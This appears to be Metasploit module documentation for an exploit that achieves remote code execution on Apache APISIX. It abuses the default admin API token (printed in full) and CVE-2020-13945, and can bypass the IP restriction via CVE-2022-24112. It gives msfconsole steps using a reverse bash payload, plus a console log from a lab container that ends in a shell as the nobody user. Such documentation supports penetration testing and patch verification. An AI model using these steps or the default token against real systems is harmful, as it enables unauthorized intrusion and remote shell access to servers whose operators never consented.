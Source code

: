 ## Vulnerable Application

A default configuration of Apache APISIX (with default API key) is vulnerable to remote code execution.

The Apache APISIX has a default API token `edd1c9f034335f136f87ad84b625c8f1` defined at `conf/config.yaml` and in its default configuration
doesn't come with the `ip-restriction` plugin enabled. This allows any user to add a new route in its default configuration. By leveraging
the feature `script` added in the 2.x version an user can add a route which leads to the remote LUA code execution (CVE-2020-13945). Even if
ip-restriction is enabled, this exploit can leverage the vulnerability CVE-2022-24112 to circumvent that restriction.

This module was tested using a vulnerable docker container as available on the
[vulnhub](https://github.com/vulhub/apisix/CVE-2020-13945/docker-compose.yml) project.

If we have the API token we can execute command using the parameter `filter_func` or `script`, and if there is an IP restriction
enabled by the plugin ip-restriction we can bypass this restriction if the batch-requests plugin is also enabled.

### Version and OS
This module has been tested successfully on Apache APISIX 2.2, 2.6, 2.11.0 and 2.12.1

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/multi/http/apache_apisix_api_default_token_rce`
3. set `RHOSTS` and `RPORT`
4. Confirm the target is vulnerable: `check`
5. Confirm that the target is vulnerable: `The target is vulnerable.`
6. It come already with a default payload `cmd/unix/reverse_bash`
7. set `LHOST` and `LPORT`
8. `exploit`
9. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the APISIX routes controller (Default: `/apisix`).

### API_KEY (required)

The admin API KEY for APISIX (Default: `edd1c9f034335f136f87ad84b625c8f1`).

### ALLOWED_IP (required)

An IP address that is knew to be in the allowed list (Default: `127.0.0.1`).

## Scenarios
```
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > run rhosts=127.0.0.1 rport=9080 lhost=docker0 lport=4444

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking component version to 127.0.0.1:9080
[+] The target appears to be vulnerable.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.18.0.4:48162 ) at 2022-02-28 18:32:50 +0100
id

uid=99(nobody) gid=99(nobody) groups=99(nobody)
uname -a
Linux 58f5aba16de9 5.16.8-arch1-1 #1 SMP PREEMPT Tue, 08 Feb 2022 21:21:08 +0000 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 127.0.0.1 - Command shell session 1 closed.
msf6 exploit(multi/http/apache_apisix_api_default_token_rce) > 
```
